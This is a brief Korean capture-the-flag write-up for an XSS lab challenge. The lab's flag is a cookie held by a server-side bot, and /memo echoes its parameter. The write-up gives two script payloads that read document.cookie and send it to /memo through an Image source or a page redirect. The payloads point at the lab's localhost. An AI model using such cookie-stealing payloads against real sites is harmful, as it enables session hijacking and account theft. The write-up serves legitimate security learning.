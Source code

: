 # xxs-1

    flag는 서버내에서 보내는 아래 HTTP요청의 쿠키 값임.
    
    memo는 요청 URL파라미터 값을 출력함.
    /memo?memo=hello
    서버의 변수를 URL요청에 담아서 값을 확인할 수 있음.

- 서버에 요청을 보낼 수 있는 기능이 있음.
    - http://127.0.0.1:8000/xxs?xxs=[입력]   
- '입력' 에 코드를 넣으면 xss필터링 없이 서버로 요청을 보냄.
- 서버안에서 '/memo?memo=쿠키값' 이렇게 보내야 쿠키값이 memo에 찍힘    
    >답1: \<script>new Image.src="/memo?memo="+document.cookie;\</script>   
    >답2: \<script>document.location.href="/memo?memo="+document.cookie;\</script>

- 스크립트를 넣어서 요청을 보내기만 하면 됨.